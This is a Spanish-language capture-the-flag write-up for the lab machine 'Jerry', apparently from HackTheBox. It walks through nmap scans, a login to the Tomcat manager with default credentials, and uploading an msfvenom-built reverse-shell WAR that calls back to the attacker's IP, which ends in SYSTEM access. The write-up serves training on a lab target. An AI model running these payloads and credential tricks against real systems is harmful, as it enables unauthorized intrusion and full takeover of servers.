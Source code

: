 # Información General :

![](images/Infocard_1.png)
![](images/Infocard_2.png)


# Escaneo básico Nmap :
Como paso inicial para obtener información sobre nuestro objetivo, hacemos un escaneo basico de Nmap para saber los puertos abiertos y qué servicios están corriendo en la máquina objetivo, con los siguientes parametros:
- __-sC__ 	: set de scripts por default.
- __-sV __	: scripts de detección de versiones.
- __-p-__ 	: escanear los 65535 puertos de la máquina.
- __-T5__	: Indice de agresividad, en este caso el más alto y rápido debido a que es un entorno de pruebas controlado.
Nota: Nunca usar en pruebas a entornos reales. 
- __-oN \<nombre de archivo\>__	: guardar el resultado del escaneo en un archivo de formato nmap.
- __-Pn__	: no verificar si el host está activo y escanear los puertos directamente.
- __-v__	: modo verbose, a más _"v"_ mayor verbosidad.

```sql
root jerry # nmap -sC -sV -p- -T5 -oN jerry.nmap -Pn -vvv 10.10.10.95 
# Nmap 7.91 scan initiated Sun May 30 20:21:03 2021 as: nmap -sC -sV -p- -T5 -oN jerry.nmap -Pn -vvv 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.18s latency).
Scanned at 2021-05-30 20:21:04 -05 for 311s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 20:26:16 2021 -- 1 IP address (1 host up) scanned in 312.94 seconds
```


# Escaneo de vulnerabilidades :
Una vez nuestro escaneo inicial esté completo podemos proceder a un escaneo de vulnerabilidades con la flag __--script__ especificando la categoria de los scripts que deseamos, en este caso será `"vuln"` haciendo alución a la categoria vulnerabiliades de nmap.

Adicionalmente jugamos con algunos de los parametros antes mencionados y en vez de escanear todos los puertos nuevamente, seleccionaremos el puerto 8080 de la siguiente manera  `-p80` .

```sql
root jerry # nmap --script "vuln" -p8080 -oN jerry_vulns.nmap -Pn -v 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-30 20:30 -05
NSE: Loaded 105 scripts for scanning.
NSE: Script Pre-scanning.                                    
Initiating NSE at 20:30   
Completed NSE at 20:30, 10.00s elapsed   
Completed NSE at 20:30, 10.00s elapsed
Initiating NSE at 20:30
Completed NSE at 20:30, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 20:30
Completed Parallel DNS resolution of 1 host. at 20:30, 0.02s elapsed
Initiating SYN Stealth Scan at 20:30
Scanning 10.10.10.95 [1 port]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 20:30, 0.15s elapsed (1 total ports)
NSE: Script scanning 10.10.10.95.
Initiating NSE at 20:30
Stats: 0:03:46 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE: Active NSE Script Threads: 1 (1 waiting)
NSE Timing: About 99.07% done; ETC: 20:34 (0:00:02 remaining)
Completed NSE at 20:35, 286.27s elapsed
Initiating NSE at 20:35
Completed NSE at 20:35, 0.47s elapsed
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/

NSE: Script Post-scanning.
Initiating NSE at 20:35
Completed NSE at 20:35, 0.00s elapsed
Initiating NSE at 20:35
Completed NSE at 20:35, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 297.40 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)

```
# Foothold:

Encontramos en un inicio que tenemos un gestor de aplicaciones web Apache Tomcat, para esto googleando un poco averiguamos que el Manager App es a donde debemos apuntar para obtener un posible escalamiento con una cuenta con privilegios administrativos.

![](images/Principal_tomcat_page.png)


# Bypassing Tomcat:
Ya que no tenemos credenciales aún, googleamos por posibles credenciales por defecto. Encontramos un repositorio con un recopilado especifico para Apache Tomcat.

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

![](images/Google_default_creds.png)

![](images/git_default.png)

En un inicio ingresamos una de las contraseñas por defecto de la lista y vemos que el mensaje de error nows muestra un usuario y contraseña por default:
username : tomcat
password : s3cret

![](images/access_denied.png)

Ahora notamos que no podemos reingresar al login del tomcat, esto se soluciona de una manera clara y sencilla, usemos un navegador de incognito, el cual no almacena ninguna cookie ni credenciales en cache:

![](images/login_succes_1.png)

![](images/login_sucess_2.png)

Ahora que tenemos acceso al panel de control del tomcat podemos empezar a testear, para ello googleamos por posibles exploits para tomcat y encontramos que una de las maneras para obtener una shell remota es subir una aplicacion java, en este caso un .war malicioso.

![](images/deploy_1.png)

## Creación del war malicioso:

Para este paso utilizaremos una herramienta del modulo de metasploit llamada __msfvenom__, para lo cual deberemos especificarle lo siguiente: 
- Payload: `-p java/jsp_shell_reverse_tcp`
- Listen Host: `LHOST=<nuestra ip asignada en la red de HTB>`
- Listen Port: `LPORT=8000`
- Formato: `-f war`
- Output name: `-o retr0.war`

root jerry # msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.21 LPORT=8000 -f war -o retr0.war 

![](images/create_exploit.png)

Lo subimos mediante la interfaz gráfica:

![](images/deploy2.png)

![](images/deploy_sucess.png)

## Reverse shell:
Ahora que ya tenemos nuestra app maliciosa subida, podemos usar o bien la interfaz gráfica o la consola para poder accede a ella y obtener nuestra shell reversa.

El url al que debemos ingresar será el siguiente:

http://10.10.10.95:8080/retr0/

En esta ocasion utilizaré la herramienta curl para hacer la petición desde la terminal y ver paralelamente cualquier cambio en una misma ventana, para esto visualizaré la estructura de los archivos de nuestro war malicioso con el comando:

`root jerry # jar -ft retr0.war`

De esta manera nuestro comando curl será: 

`curl http://10.10.10.95:8080/retr0/hulsxiaggcmweak.jsp`

Y usaremos netcat con los parametros:
- `-l`  -> local
- `-n` -> resolver unicamente direcciones IP y no DNS
- `-v` -> verbose.
- `-p` -> puerto
para tener conexión de escucha en el puerto 8000 e interactuar con la caja:

`nc -lvnp 8000`

![](images/reverse_shell.png)

Ahora verificamos el usuario y privilegios que este tiene:

![](images/whoami.png)

![](images/permissions.png)

Vemos que somos __NT AUTHORITY/SYSTEM__, el usuario sistema con privilegios totales en la máquina.

Ahora el juego no acaba ahí debemos buscar las flags, para ello vamos a la carpeta  __C:\\Users\\__ y visualizamos que solo tenemos el usuario __Administrador__ habilitado, ingresamos a la carpeta _Desktop_ y vemos que el creador nos dejó un regalo:

![](images/flags.png)